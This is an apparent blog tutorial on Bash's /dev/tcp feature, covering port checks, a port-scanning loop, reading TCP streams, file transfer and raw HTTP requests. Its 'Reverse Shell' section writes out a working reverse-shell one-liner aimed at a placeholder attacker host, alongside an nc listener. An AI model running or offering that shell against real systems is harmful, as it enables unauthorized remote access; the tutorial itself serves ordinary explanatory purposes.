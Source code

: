 ```yaml
---
layout: post
title: Bash-ing Your Network
excerpt: In Bash, `/dev/tcp` is a special file that allows you to establish network connections using the TCP/IP protocol. It provides a simple way to communicate with remote servers over a network.
author: stefanos_kalandaridis
---
```


## /dev/tcp is a file descriptor of bash shell
In Bash, `/dev/tcp` is a special file that allows you to establish network connections using the TCP/IP protocol. It provides a simple way to communicate with remote servers over a network.
Using `/dev/tcp`, you can open a network socket and read from or write to it, similar to how you would read from or write to a file. This feature is primarily available in Bash shells on Unix-like systems.
/dev/udp is also valid.
- [Port Scanning](#port-scanning)
- [Read TCP stream](#read-tcp-stream)
- [File Transfer](#file-transfer)
- [Reverse Shell](#reverse-shell)
- [HTTP Requests](#http-requests)

### Port scanning
#### One of the most common uses of it is to check if a port is open in a remote host
```
timeout 0.5 echo -n 2>/dev/null < /dev/tcp/127.0.0.1/7777 && echo "open" || echo "closed"
```
#### This can be extremely usefull in cases where a machine/container doesn't have nc, curl, wget or any other utility to check for network connection
Let's say we are in a kubernetes pod that runs on a minimal image having bash. We want to check if it can communicate with a service or if the service is actually listening on a port.
```
kubectl exec -it svc/random-service -- bash
$ echo < /dev/tcp/other-service.namespace.svc.cluster.local/7777 && echo "open" || echo "closed"
```
#### You can make a port scanner with it (and it's pretty fast)
```
for port in {1..8888}; do
  echo -n 2>/dev/null < /dev/tcp/127.0.0.1/$port && echo "$port/tcp open"
done
```
### Read TCP stream
#### Get the time from nist.gov
```
cat < /dev/tcp/time.nist.gov/13
```
### File Transfer
#### Option 1
Sender
```
nc -lvnp 7777 < file.txt
```
Receiver
```
cat < /dev/tcp/sender/7777 > file.txt
```
#### Option 2
Receiver
```
nc -lvnp 7777 > file.txt
```
Sender
```
cat file.txt > /dev/tcp/receiver/7777
```
### Reverse Shell
#### Attacker
```
nc -lvnp 7777
```
#### Victim
```
bash -c 'bash -i >& /dev/tcp/attacker/7777 0>&1'
```
### HTTP Requests
#### Fetching the `www.google.com` page
```
exec 5<>/dev/tcp/www.google.com/80
echo -e "GET / HTTP/1.1\r\nhost: www.google.com\r\nConnection: close\r\n\r\n" >&5
cat <&5
```
### References 
- [https://tldp.org/LDP/abs/html/devref1.html](https://tldp.org/LDP/abs/html/devref1.html)
- [https://w0lfram1te.com/exploring-dev-tcp](https://w0lfram1te.com/exploring-dev-tcp)

